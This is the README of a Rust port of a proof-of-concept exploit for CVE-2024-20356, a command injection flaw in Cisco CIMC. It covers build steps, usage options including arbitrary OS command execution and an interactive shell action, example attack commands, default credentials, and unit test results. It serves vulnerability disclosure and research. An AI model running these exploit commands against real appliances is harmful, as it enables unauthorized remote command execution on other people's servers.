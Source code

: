 # CVE-2024-20356
This is a proof of concept for CVE-2024-20356, a Command Injection vulnerability in Cisco's CIMC.

Written by Aaron and Oxidised by SherllyNeo

Full technical details can be found at [https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom](https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom)

## Install
```bash
cargo build --release && cp ./target/release/CVE_2024_20356 ~/.local/bin/
```

## Usage
```bash
Usage: CVE_2024_20356 [OPTIONS] --host <HOSTNAME>

Options:
  -t, --host <HOSTNAME>      Target hostname or IP address (format 10.0.0.1 or 10.0.0.2:1337)
  -u, --username <USERNAME>  Username [default: admin]
  -p, --password <PASSWORD>  Password [default: cisco]
  -a, --action <ACTION>      Action to perform [default: test] [possible values: test, cmd, shell, dance]
  -c, --cmd <CMD>            OS command to run [default: None]
  -v, --verbose              Displays more information about cimc
  -h, --help                 Print help
  -V, --version              Print version
```

Example commands:
```bash
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -v
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -c 'id'
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a shell
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a dance
```

Use the `--help` argument for full usage instructions.

## Disclaimer
This proof-of-concept is for demonstration purposes and should not be used for illegal activities. LRQA Nettitude are not responsible for any damage caused by the use or misuse of this code.
Don't be evil

## Tests
I wrote this without access to the server based on the [original code base](https://github.com/nettitude/CVE-2024-20356/blob/main/CVE-2024-20356.py).

Due to this I wrote extensive unit tests to ensure that the encryption functions match up with those found in the original.
That the login method works using a mock server.
That the arguement parsing works for IP addresses.

to run these tests, use cargo --test
```bash
cargo test
   Compiling CVE_2024_20356 v0.1.0
    Finished `test` profile [unoptimized + debuginfo] target(s) in 2.27s
     Running unittests src/main.rs (target/debug/deps/CVE_2024_20356-6d8ec478cd93405b)
running 8 tests
test libs::encryption::tests::pad_test ... ok
test libs::encryption::tests::key_fnv32_test ... ok
test libs::encryption::tests::aes_encrypt_test ... ok
test libs::encryption::tests::derive_key_and_iv_test ... ok
test libs::encryption::tests::hash_fnv32_test ... ok
test libs::encryption::tests::encrypt_test ... ok
test libs::actions::tests::login_test ... ok
test libs::arguments::validate_hostname_test ... ok
test result: ok. 8 passed; 0 failed; 0 ignored; 0 measured; 0 filtered out; finished in 0.02s
```


## Project Structure
I put this here as I avoided using mod.rs and to show how main is a thin wrapper around lib.

This is to allow for integration tests in the future.

```bash
src
├── lib.rs
├── libs
│   ├── actions.rs
│   ├── arguments.rs
│   └── encryption.rs
└── main.rs
```


